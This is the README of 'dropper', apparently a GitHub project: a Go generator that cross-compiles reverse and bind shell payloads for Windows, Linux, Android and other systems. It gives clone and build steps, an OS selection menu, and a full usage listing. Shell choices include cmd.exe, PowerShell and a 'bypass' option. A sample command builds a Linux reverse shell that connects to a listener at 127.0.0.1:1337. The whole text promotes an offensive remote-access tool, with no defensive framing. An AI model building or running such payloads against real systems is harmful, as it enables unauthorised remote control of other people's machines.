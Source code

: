 Dropper

Cross compiling reverse/bind payload generator written in Go.
 
In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+
<br>
&#x2d; windows<br>
&#x2d; linux<br>
&#x2d; freebsd<br>
&#x2d; nacl<br>
&#x2d; netbsd<br>
&#x2d; openbsd<br>
&#x2d; plan9<br>
&#x2d; solaris<br>
&#x2d; dragonfly<br>
&#x2d; darwin<br>
&#x2d; android<br>

&#x3e;_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
